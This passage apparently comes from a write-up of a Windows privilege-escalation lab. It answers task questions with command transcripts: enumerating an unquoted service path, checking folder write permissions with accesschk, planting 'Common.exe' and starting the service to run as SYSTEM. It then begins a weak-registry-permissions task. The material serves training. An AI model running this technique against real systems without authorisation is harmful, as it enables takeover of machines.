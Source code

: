 <p><em>Answer the question below</em></p>

<p>4.1. What is the BINARY_PATH_NAME of the unquotedsvc service?<br>
<code>C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe</code></p>

```bash
C:\PrivEsc>sc qc unquotedsvc
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```bash
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

```bash
C:\PrivEsc>copy C:\PrivEsc\program.exe "C:\Program Files\Unquoted Path Service\Common.exe"
copy C:\PrivEsc\program.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```

```bash
C:\PrivEsc>net start unquotedsvc
```


<h2 align="center">Task 5 . Service Exploits - Weak Registry Permissions</h2>

<p><em>Answer the question below</em></p>

<p>5.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

```bash
C:\PrivEsc>sc qc regsvc
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
